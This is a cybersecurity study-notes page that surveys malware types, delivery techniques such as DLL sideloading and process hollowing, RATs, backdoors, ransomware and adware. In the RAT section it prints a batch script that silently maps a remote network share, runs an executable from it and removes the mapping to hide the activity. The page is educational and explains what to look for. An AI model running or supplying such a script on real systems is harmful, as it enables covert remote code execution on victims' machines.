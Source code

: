 ```yaml
---
title: "Malware"
tags: 
- security
- Cybersecurity
sidebar_position: 20
last_update:
  date: 1/30/2024
---
```



## Overview

A **malware** is a software that is detrimental to the operations of the host. In the old days, all malware starts out as a virus, which spreads across a network and replicates only through definite user interaction.

A **malware attack** is an exploit technique is a specific method by which malware code infects a target host.

- Malware can assert malicous macro into a document file.
- Other malware focused on infecting the memory or other resources.
- Modern malware uses file-less techniques to avoid detection.

**PUPs or Potentially Unwanted Programs** are softwares that may have negative or undesirable effects.

- Crapware, adware, spyware, bloatware

## Fileless Malware

Used to create a process in the system memory without relying on the local file.

- Difficult to detect; leaves very few traces of indicators of compromise.
- Some temporarily write data, but they also erase those artifacts after execution.

## Two-stage Deployment

Most modern malware uses a two-stage deployment.

**Step 1: Dropper or Downloader**

- When a user clicks a malicious link, opens a malicious file, which then installs the malware.
- Usually created as a lightweight shell code that can be executed on a given system.
- **Dropper** - Initiates/runs malware forms within a payload on an infected host.
- **Downloader** - Retrieves additional tools after the initial infection by the dropper.
- **Shellcode** - lightweight code meant to execute an exploit on a given target.

**Step 2: Downloader**

- Another downloader, installs remote access trojan (RAT).
- For Command and Control on the victimized system.

## Actions on Objective  

Once the attacker has spread his footprint on your network and they've established a stronghold, he can then transition into the "Action on Objectives" Phase. On thi phase, the attackers can then will execute their primary objectives.

## Concealment 

Final step of the attack. This will help the threat actor prolong unauthorized access to the system, which can be done by hiding tracks, erasing log files, or hiding any evidence.

## Malware Delivery 

### Common Deployment Techniques 

Common techniques to deploy malicious code:

- **Code Injection**
    - Inserts malicious code into a legitimate process's address space to execute under its context.

- **DLL Sideloading**
    - Loads a malicious DLL by placing it in a directory where a legitimate application will mistakenly load it.

- **DLL Injection**
    - Forces a running process to load a malicious DLL, enabling the attacker to control the process.

- **Masquerading**
    - Disguises malicious files or processes as legitimate ones to avoid detection.

- **Process Hollowing**
    - Replaces the code of a legitimate process with malicious code while the process is running, allowing the attacker to execute their code under the guise of the legitimate process.


### Living off the Land 

A strategy adopted by many Advanced Persistent Threats (APTs) and criminal organizations.

- Threat actors exploit standard system tools to perform intrusions.
- Example: manipulating powershell to conduct malicious activities.


## Remote Access Trojan (RAT)

A Remote Access Trojan (RAT) is malware that gives an attacker remote control over a victim’s computer. It can silently execute commands, steal data, install other malware, or spy on user activity.

- Earliest version is a testris game which infected with the trojan.
- The game is installed into floppy disks and share between friends.

As an example, the script below shows suspicious behavior often linked to RATs:

```
## Hides command output from the user
@echo off

## Disguises the script as a normal maintenance task
rem Update system components

## Connects to an external network share without user approval
net use Y: \\192.168.45.100\update_repo /user:update_agent /p:yes

## Runs a potentially malicious executable from the network share
Y:\utilities\update_sync.exe

## Removes the mapped drive to hide activity
net use Y: /delete 
```

The file `update_sync.exe`** exhibits characteristics typical of a **Remote Access Trojan (RAT)**:

- It's not approved or authorized by security controls
- Communicates with an external IP address
- Executes remote commands on the host system
- Can be used to exfiltrate data or deploy additional malware


## Reverse Proxy Backdoor

A reverse proxy backdoor is malware that opens an outbound connection from a victim's system to an attacker's server, bypassing firewalls and NAT.

- Attacker sets up a remote server to accept connections 
- Traffic is relayed to internal systems
- Malware connects to that server
- It then waits for commands to proxy requests or move laterally

This backdoor is often hidden in legitimate apps or updates and can be hard to detect, especially if it uses encryption or mimics trusted services.



## Ransomware

**Ransomware** is malicious software that locks or encrypts data and demands payment to restore access.

- Blocks access to a computer or files until the ransom is paid.
- Spreads via phishing emails, malicious attachments, or drive-by downloads.
- **Examples**: WannaCry, CryptoLocker, Ryuk.

Paying the ransom does not guarantee data recovery and may encourage repeat or broader attacks.

## Keylogger

A **keylogger** is software or hardware that captures every keystroke typed on a device, usually without the user’s knowledge.

- Originally created to help in troubleshooting.
- Captured key strokes are sent to the threat actor.
- Can be installed by malware or physical access to the device.
- Often used as part of spyware or targeted attacks.

## Spyware 

**Spyware** is unwanted software that secretly collects user data and monitors activity without consent.

- Tracks browsing habits, keystrokes, or system usage in the background.
- May send data to third parties for financial or surveillance purposes.
- Often bundled with free software or installed via phishing.
- Can degrade performance and pose serious privacy risks.


## Bloatware 

**Bloatware** refers to unnecessary or pre-installed software that consumes system resources without providing value to the user.

- Typically comes preloaded by manufacturers or vendors.
- Slows down system performance and startup time.
- May include trialware, ads, or partner apps that clutter the system.

While not inherently malicious, it can reduce user control and lead to vulnerabilities.


## Adware 

**Adware** is software designed to display or inject unwanted ads, often bundled with free programs.

- May redirect browser traffic, show pop-ups
- It can also change homepages/search engines
- Often installed during software downloads.
- Some adware tracks user behavior to serve targeted ads.

Though less harmful than spyware or ransomware, adwares still poses privacy and security concerns.